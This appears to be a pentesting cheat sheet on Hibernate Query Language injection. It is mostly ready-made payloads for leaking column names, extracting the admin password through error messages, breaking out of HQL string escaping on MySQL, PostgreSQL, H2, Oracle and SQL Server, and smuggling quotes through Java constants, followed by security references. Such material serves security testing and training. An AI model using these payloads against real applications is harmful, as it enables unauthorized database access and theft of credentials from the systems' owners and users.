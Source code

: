 # Hibernate Query Language Injection 

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia

## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [Single Quote Escaping](#single-quote-escaping)
* [$-quoted strings](#--quoted-strings)
* [DBMS Magic functions](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java constants](#java-constants)
* [Methods by DBMS](#methods-by-dbms)
* [References](#references)

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' -- 
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## Single Quote Escaping

Method works for MySQL DBMS which escapes SINGLE QUOTES in strings with SLASH `\'`.

In HQL SINGLE QUOTES is escaped in strings by doubling `''`.

```
'abc\''or 1=(select 1)--'
```

In HQL it is a string, in MySQL it is a string and additional SQL expression.

## $-quoted strings

Method works for DBMS which allow DOLLAR-QUOTED strings in SQL expressions: PostgreSQL, H2.

Hibernate ORM allows identifiers starting with `$$`.

```
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

## DBMS Magic functions

Method works for DBMS which have MAGIC FUNCTIONS which evaluate SQL expression in string parameter: PostgreSQL, Oracle.

Hibernate allows to specify any function name in HQL expression.

PostgreSQL has built-in function `query_to_xml('Arbitrary SQL')`.

```
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle has built-in function `DBMS_XMLGEN.getxml('SQL')`

```
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

Method works for DBMS which allow UNICODE delimiters (Ex. U+00A0) between SQL tokens: Microsoft SQL Server, H2.

In Microsoft SQL SERVER `SELECT LEN([U+00A0](select[U+00A0](1))` works the same as `SELECT LEN((SELECT(1)))`;

HQL allows UNICODE symbols in identifiers (function or parameter names).

```
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java constants

Method works for most DBMS (does not work for MySQL).

Hibernate resolves Java public static fields (Java constants) in HQL queries:

- Class with Java constant must be in classpath
- Ex. `java.lang.Character.SIZE` is resolved to 16
- String or char constants are additionally surrounded by single quotes

To use JAVA CONSTANTS method we need special char or  string fields declared in classes or interfaces on classpath.

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Some usable constants in well-known Java libraries:

```
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```

## Methods by DBMS

![image](https://user-images.githubusercontent.com/16578570/163428666-a22105a8-287c-4997-8aef-8f372a1b86e9.png)

## References

* [HQL for pentesters - February 12, 2014 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL : Hyperinsane Query Language - 04/06/2015 - Renaud Dubourguais](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn: Exploiting injections in Hibernate ORM - Nov 26, 2015 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
* [New Methods for Exploiting ORM Injections in Java Applications - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov](https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
* [HQL Injection Exploitation in MySQL - July 18, 2019 - Olga Barinova](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)
